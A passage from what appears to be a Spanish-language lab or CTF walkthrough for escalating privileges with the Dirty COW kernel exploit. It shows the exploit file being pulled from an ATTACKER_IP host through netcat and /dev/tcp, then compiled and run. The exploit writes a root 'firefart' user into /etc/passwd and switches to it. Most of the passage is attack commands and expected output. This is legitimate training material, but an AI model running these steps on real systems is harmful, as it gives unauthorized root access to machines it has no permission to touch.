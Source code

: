 **Opción 2: Transferencia por netcat**
```bash
# En máquina atacante
nc -nlvp 1234 < 40839.c

# En máquina objetivo
cat < /dev/tcp/ATTACKER_IP/1234 > 40839.c
```

### Compilación y ejecución del exploit

```bash
# Verificar instrucciones de compilación en el código fuente
head -20 40839.c | grep -E "(gcc|compile)"

# Compilar el exploit (instrucciones del comentario)
gcc -pthread 40839.c -o dirty -lcrypt

# Verificar permisos de ejecución
chmod +x dirty

# Ejecutar exploit
./dirty
```

> [!example] Funcionamiento del exploit
> El exploit Dirty COW:
> 1. Explota una condición de carrera en la función `get_user_pages()`
> 2. Modifica `/etc/passwd` mientras está siendo accedido
> 3. Crea un usuario `firefart` con UID 0 (root)
> 4. Permite acceso root con contraseña conocida

### Verificación de escalada exitosa

```bash
# Verificar que se creó el usuario firefart
cat /etc/passwd | grep firefart
```

**Resultado esperado:**
```
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
```

```bash
# Cambiar a usuario root
su firefart
# Introducir contraseña (generalmente "firefart" o la especificada en el exploit)

# Verificar privilegios
whoami
# Salida: root

# Obtener shell root completa
id
```

---